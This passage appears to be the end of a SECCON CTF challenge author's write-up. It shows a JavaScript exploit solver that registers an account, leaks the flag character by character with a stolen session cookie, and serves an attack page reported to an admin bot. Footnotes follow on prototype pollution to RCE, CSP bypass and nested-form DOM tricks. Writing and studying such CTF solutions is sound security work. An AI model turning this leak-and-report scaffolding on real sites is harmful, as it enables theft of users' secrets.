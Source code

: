 ```javascript
  const password = crypto.randomBytes(12).toString("base64");

  const res = await fetch(`${SECCON_BASE_URL}/signup`, {
    method: "POST",
    headers: {
      "Content-Type": "application/json",
    },
    body: JSON.stringify({
      name,
      password,
      emoji: "x",
    }),
    redirect: "manual",
  });
  const cookie = res.headers.get("Set-Cookie").split(";")[0];

  let prefix = "SECCON{";
  while (!prefix.endsWith("}")) {
    prefix += await leak(prefix.length, cookie);
    console.log(prefix);
    await sleep(500);
  }

  console.log(`Flag: ${prefix}`);
  process.exit(0);
};

const start = async () => {
  fastify.get("/", async (req, reply) => {
    const html = await fs.readFile("index.html");
    return reply.type("text/html; charset=utf-8").send(html);
  });

  fastify.post("/start-leak", async (req, reply) => {
    console.log("leak:");
    exploit();
    return "";
  });

  fastify.listen(
    { port: LISTEN_PORT, host: "0.0.0.0" },
    async (err, address) => {
      if (err) fail(err.toString());

      await sleep(2 * 1000);
      await reportUrl(
        `${ATTACK_BASE_URL}?${new URLSearchParams({
          baseUrl: "http://web:3000",
        })}`
      );

      await sleep(180 * 1000);
      fail("Failed");
    }
  );
};
start();
```


[^babybox-1]: Actually, I discovered the Prototype Pollution before I found this report. Although I don't like 0-day challenges in CTF, it's not 0-day in this case. Also, the part of "Prototype Pollution to RCE" is interesting for me. So I decided to create this challenge.
[^maas-1]: The CSP bypass is too complicated to explain. So, please try it with your hands :raised_hands:
[^light-note-1]: Firefox has recently added support for import maps at version 108 :tada:<br>ref. https://www.mozilla.org/en-US/firefox/108.0/releasenotes/
[^light-note-2]: However, we can construct nested forms by DOM manipulation in JavaScript.<br>E.g. `document.body.appendChild(document.createElement("form")).appendChild(document.createElement("form"))`<br>ref. https://html.spec.whatwg.org/#association-of-controls-and-forms
[^light-note-flag]: https://store.steampowered.com/app/381890/Induction
[^dark-note-flag]: https://store.steampowered.com/app/360740/Downwell